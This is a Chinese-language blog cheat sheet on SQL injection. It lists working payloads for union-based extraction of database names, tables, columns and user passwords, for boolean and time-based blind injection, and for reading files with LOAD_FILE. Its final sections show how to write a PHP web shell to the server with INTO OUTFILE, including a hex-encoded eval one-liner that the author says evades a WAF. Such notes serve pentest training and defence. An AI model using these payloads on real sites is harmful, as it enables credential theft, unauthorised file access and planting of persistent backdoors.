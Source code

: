 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: SQL注入
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-18
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - SQL注入
comment: false
---
```

## 0x01 普通手动注入
 ### 1. 判断是否存在注入点
```sql
单引号， and 1=1 ，and 1=2 ，双引号，反斜杠，注释等
```
根据报错信息，返回内容判断是否存在sql注入
### 2. 判断是否存在注入点
逐步提高order by 1列号，出现错误时表示超过表的列数
```sql
order by 1 --
```
### 3. 判断字段的显示位
观察1，2，3的显示位置判断字段显示位
```sql
union select 1,2,3 --
```
### 4. 获取当前数据库信息
database(): 查看当前数据库名称
version(): 查看数据库版本信息
user(): 返回当前数据库连接使用的用户
可以使用group_concat()函数将多个字段连在一起当作一个字段中显示
```sql
union select 1,group_concat(database(),version()),3 --
```
### 5. 获取数据库中的表信息
ps：table_schema='数据库名'
```sql
union select 1,group_concat(char(32),table_name,char(32)),3 from information_schema.tables where table_schema='security' -- '
```
### 6.获取表中的列信息
```sql
union select 1,group_concat(char(32),column_name,char(32)),3 from information_schema.columns where table_name='users' -- '
```
### 7.获取数据
```sql
union select 1,group_concat(char(32),username,char(32),password),3 from users -- '
```

## 0x02 bool盲注
### 1.猜测长度
```sql
and length(database())>1 #
```
### 2.猜测库名
```sql
and ascii(substr(database(),1,1))>97 #
```
### 3.猜测表名
- 猜测表的数量
```sql
and (select count(table_name) from information_schema.tables where table_schema=database())=2#
```
- 猜测表的长度
```sql
and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #
```
- 获取表名
```sql
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 #
```

### 4. 猜测字段长度
```sql
and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 #
```

### 5.猜测字段
```sql
and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120 #
```

## 0x03 基于时间的盲注
### 1. 判断数据库长度
```sql
and if(length(database())=4,sleep(3),1) #
```
### 2. 猜测数据库名称
```sql
and if(ascii(substr(database(),1,1))>97,sleep(3),1)#
```
### 3. 猜测表的数量
```sql
and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```
### 4. 猜测表名的长度
```sql
and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```

### 5. 猜测字段
```sql
and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120,sleep(5),1) #
```
## 0x04 其他函数
- MID(ColumnName, Start, Length]) - 用于从文本字段中提取字符
```sql
SELECT MID(column_name,start,length]) FROM table_name
```
- LEFT(str,len) - 返回字符串str的最左面len个字符
- ASCII(str) - 返回字符串str的最左面字符的ASCII代码值。如果str是空字符串，返回0。如果str是NULL，返回NULL
```sql
ascii(substr((select table_name from information_schema.tables where table_schema =database()limit 0,1),1,1))=101 –+
```
- CAST() - 将目标str转化为目标数据类型
```sql
SELECT CAST(’12’ AS int)     
```
- IFNULL(expr1,expr2) - 如果expr1不是NULL，IFNULL()返回expr1，否则它返回expr2
- LOAD_FILE
说明：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的 ASCII 代码
  ```sql
  -1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))
  ```
说明：“c:/boot.ini”的 16 进制是“0x633a2f626f6f742e696e69”
  ```sql
  -1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)
  ```
将其他路径包含一句话木马的文件导出成php来链接
  ```sql
  select load_file('c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini') into outfile 'c:\\wamp\\www\\test.php'
  ```

## 0x05 读文件/写shell
  - union方式  
    ```sql
    -1 union select 1,user(),3 into outfile "C:\\test.txt" --+
    ```
  - 16进制写shell <    ?   eval($_POST[x]);?>可以过waf
    ```sql
    -1 union select 0x3c,0x3f,0x6576616C28245F504F53545B785D293B3F3E into outfile "C:\\test.php" --+
    ```
  - 分隔符写shell
  ```sql
  select * from admin where id=1 into outfile 'F:\WWW\phpinfo.php' fields terminated by '<? phpinfo(); ?>'%23     #分隔符也可以用16进制表示
  ```
  - 读文件
  ```sql
  select load_file('c:/boot.ini')
  ```
